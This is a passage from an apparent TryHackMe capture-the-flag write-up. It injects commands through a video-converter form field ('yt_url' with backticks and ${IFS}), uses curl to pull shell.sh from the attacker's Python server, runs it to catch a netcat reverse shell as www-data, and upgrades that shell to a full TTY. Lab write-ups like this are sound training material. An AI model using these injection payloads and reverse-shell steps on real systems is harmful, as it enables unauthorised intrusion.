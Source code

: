 ### Starting a python server
```console
local@local:~/Documents/tryhackme/convertmyvideo$ sudo python3 -m http.server 80
[sudo] password for local: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

## Downloading the file on the remote server
### Request
```html
yt_url=`curl${IFS}10.6.31.213/shell.sh>/var/www/html/shell.sh`
```
And if we check the python server, we get a hit.
```console
local@local:~/Documents/tryhackme/convertmyvideo$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.226.205 - - [25/Nov/2020 15:49:18] "GET /shell.sh HTTP/1.1" 200 -
```

### Listening on our box to catch the reverse shell
```console
local@local:~/Documents/tryhackme/convertmyvideo$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```

### Executing the file on remote server
```html
yt_url=`sh${IFS}/var/www/html/shell.sh`
```

And if we check the netcat listener, we get a shell back.
```console
local@local:~/Documents/tryhackme/convertmyvideo$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.226.205 51028
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
Now this shell is a bit hard to work with as it is not interactive. It lacks using arrow keys, autocompletion, and using keys like CTRL+C to kill a process. So We have to make this session a interactive session.

## Getting a proper TTY
Now lets get a proper shell with auto completion.
```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
Hit CRTL+z to background the current process and on local box type
```console
local@local:~/Documents/tryhackme/convertmyvideo$ stty raw -echo
```
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```console
www-data@dmv:/var/www/html$  export TERM=xterm
```
Now we have a proper shell.

